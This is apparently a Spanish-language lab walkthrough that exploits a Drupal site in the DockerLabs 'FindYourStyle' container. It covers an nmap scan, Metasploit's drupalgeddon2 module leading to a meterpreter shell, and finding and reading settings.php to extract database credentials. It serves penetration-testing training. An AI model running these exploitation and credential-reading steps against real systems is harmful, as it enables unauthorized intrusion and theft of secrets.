 # Hacking en Entornos Drupal – PARTE 2

Maquinas que vamos a utilizar **Kali Linux y FindYourStyle** [DockerLabs](https://dockerlabs.es/)

Descargar en ele escritorio de Kali. Descomprimimos el archivo y en un terminal escribimos el siguiente comando para desplegar la maquina en Docker.

```bash
sudo bash auto_deploy.sh findyourstyle.tar
```

![image.png](./imagenes/image%2047.png)

```bash
nmap -p- -sS -sV -sC --open -min-rate=5000 -n -vvv -Pn 172.17.0.2 
```

![image.png](./imagenes/image%2048.png)

- Nos vamos en el navegador y ponemos la IP para ver el puerto 80 en el navegador web
    
    ![image.png](./imagenes/image%2049.png)
    

- Usamos la **herramienta whatweb** para ver que tecnologías utiliza la web.
    
    ```bash
    whatweb http://172.17.0.2/  
    ```
    
    ![image.png](./imagenes/image%2050.png)
    

- Lanzamos el Metasploit
    
    ![image.png](./imagenes/image%2051.png)
    
    `search drupal 8`
    
    ![image.png](./imagenes/image%2052.png)
    

`use exploit/unix/webapp/drupal_drupalgeddon2`

![image.png](./imagenes/image%2053.png)

`show options`

![image.png](./imagenes/image%2054.png)

Completamos los datos que nos falten.

`set RHOSTS 172.17.0.2`

`show options`

![image.png](./imagenes/image%2055.png)

`run`

![image.png](./imagenes/image%2056.png)

Ya tenemos una sesión de meterpreter

- Lanzamos una sesion de shell
    
    `shell`
    
    ![image.png](./imagenes/image%2057.png)
    
- Vamos a buscar el archivo **settings.php.**
    
    <aside>
    👉
    
    El archivo **settings.php** en Drupal **es crucial** para la configuración del sitio. Se encuentra en la carpeta `sites/default` y almacena información clave, como la conexión a la base de datos, el nombre de la base de datos, el usuario y la contraseña
    
    </aside>
    
    `find / -name settings.php 2>/dev/null`
    
    ![image.png](./imagenes/image%2058.png)
    
    <aside>
    💡
    
    `find /`: Busca en todo el sistema desde la raíz (`/`).
    
    `name settings.php`: Filtra la búsqueda para encontrar archivos que coincidan exactamente con el nombre `settings.php`.
    
    `2>/dev/null`: Redirige los mensajes de error generados por la búsqueda (por ejemplo, por falta de permisos) al vacío (`/dev/null`), evitando que aparezcan en la salida.
    
    </aside>
    
- Vamos a ver el contenido del archivo **settings.php**
    
    `cat /var/www/html/sites/default/settings.php`
    
    ![image.png](./imagenes/image%2059.png)
    
    Aquí intentaremos encontrar contraseñas, usuarios , etc…
    
    ![image.png](./imagenes/image%2060.png)
    
    ![image.png](./imagenes/image%2061.png)